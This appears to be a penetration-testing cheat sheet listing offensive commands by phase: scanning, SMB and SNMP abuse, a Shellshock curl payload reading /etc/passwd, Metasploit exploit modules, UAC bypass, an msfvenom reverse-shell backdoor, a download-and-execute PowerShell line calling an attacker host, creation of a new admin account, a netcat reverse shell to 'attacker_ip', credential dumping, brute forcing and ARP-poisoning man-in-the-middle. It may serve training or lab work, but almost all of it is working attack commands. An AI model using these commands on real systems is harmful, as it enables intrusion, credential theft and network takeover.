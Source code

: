 ### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 2.DNS Misconfiguration
    - dig @authorative_dns_server -t axfr DOMAIN              :    Exploiting zone transfer to display all subdomains
    - dig @authorative_dns_server axfr -x subNet (192.168)    :    Reverse DNS

### 3.SMB Misconfiguration

   #### 3.1 Collecting Info
    nmap -p445 --script smb-protocols TARGET
    nmap -p445 --script smb-security-mode TARGET
    nmap -p445 --script smb-enum-users  TARGET
    auxiliary/scanner/smb/smb_enumshares

    
   #### 3.2 Check Null session (Anynomous Access)
    smbclient -L IPTarget
    
   #### 3.3 Mounting SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 3.4 Metasploit
    exploit/windows/smb/psexec
    exploit/windows/smb/smb_relay


### 4.SNMP 
#### 4.1 Detection
    nmap -sU -p 161 Target

#### 4.2 Exploitation to guess community string and Collect Info
    nmap -sU -p 161 --script=snmp-brute Target
    snmpwalk -v 1 -c public Target
    nmap -sU -p 161 --script snmp-* Target > snmp_output

### 5.Exploitation

#### 5.1 Exploit ShellShock CVE-2014-6271 (suppose it is at /browser.cgi)
    nmap -sV -p80 --script http-shellshock --script-args uri=/browser.cgi,cmd='echo Content-Type: text/html; echo; /usr/bin/id' Target
    curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://Target/browser.cgi

#### 5.2 Other common exploits 
    - exploit/unix/ftp/proftpd_133c_backdoor for ProFTPD ==> Result in a shell
    - exploit/multi/misc/java_rmi_server ==> Result in a shell
    - auxiliary/scanner/mysql/mysql_authbypass_hashdump ==> dump mysql password hashes
    - exploit/windows/http/badblue_passthru for badblue 2.7 ==> Result in a shell
    - exploit/windows/http/rejetto_hfs_exec for hfs 2.3  ==> Result in a shell

### 6.Post Exploitation

#### 6.0 Infor Gathering
    run winenum
    run arp_scanner –r TargetNetworkSubnet
    run post/multi/gather/filezilla_client_cred
    run post/windows/gather/enum_applications

#### 6.1 Privilege Escalation

##### 6.1.1 MSF

    getsystem
    post/windows/gather/win_privs                : Check if UAC enabled
    exploit/windows/local/bypassuac              : Local exploit to bypass UAC
    post/multi/recon/local_exploit_suggester     : Find local exploit 
    exploit/multi/mysql/mysql_udf_payload        : if mysql running as root and we have the password
    incognito / mimikatz                         : Impersonate priviliged user

##### 6.1.2 Via Windows Services 
    
    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”
    
    - Using powerUp.ps1 script in https://powersploit.readthedocs.io/en/latest/Privesc/
        - Import the script to the Victim in Powershell ==> iex (New-Object Net.WebClient).DownloadString('http://HackeIP/PowerUp.ps1')
        - Run Invoke-AllChecks
        - Take note of the AbuseFunction (example : PriviligedService)
        - Use the PriviligedService to run any OS Command for example create new Admin user : Invoke-ServiceAbuse -Name PriviligedService  -UserName testUser -Password password_123 -LocalGroup "Administrators"

##### 6.1.3 
    - Using the UACMe framework
        - Generate backdoor : msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.2 LPORT=4444 -f exe > 'backdoor.exe'
        - Upload both backdoor.exe and UACMe executable
        - Akagi64.exe 23 C:\Users\admin\AppData\Local\Temp\backdoor.exe
    - 

#### 6.2 Pivoting
    From MSF Console          : route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
    From metrerpreter         : run autoroute -s 192.168.4.0/24
    
    portfarwarding (meterpreter) ==>  portfwd add -l LocalPort -p ServicePort -r victimeIP (ex: portfwd add -l 1234 -p 80 -r 10.0.17.12)
    portfwd list    ==> This meterpreter command display current portforwarding
    ssh Port Forwarding ==>
        - ssh -4 -L 8000:127.0.0.1:3306 user@target    : Forward traffic going to specific port to another port on the Victim
        - ssh -D 9090 user@target                      : Open socks proxy listning on 9090
        
### 7.Bruteforcing

    Brutefore Using Hydra     : hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt TARGET smb
    SSH Using MSF             : auxiliary/scanner/ssh/ssh_login
    Brute Force MySQL         : use auxiliary/scanner/mysql/mysql_login
    Bruteforce SMB            : auxiliary/scanner/smb/smb_login

### 8.Lateral Movement
    RDP from kali                             : xfreerdp /u:guest_1 /p:guestpwd /v:Target
    Getiing shell from Windows using netcat   : 
            - On attacker machine  : nc -lvp 8080
            - On the victime       : nc attacker_ip 8080 -e cmd.exe 

### 9.Sniffing

    MiTM between vtcim1 & victm2 using arp poisonning:
        arpspoof -i tap0 -t vic1_IP -r vic2_IP
        arpspoof -i tap0 -t vic2_IP -r vic2_IP
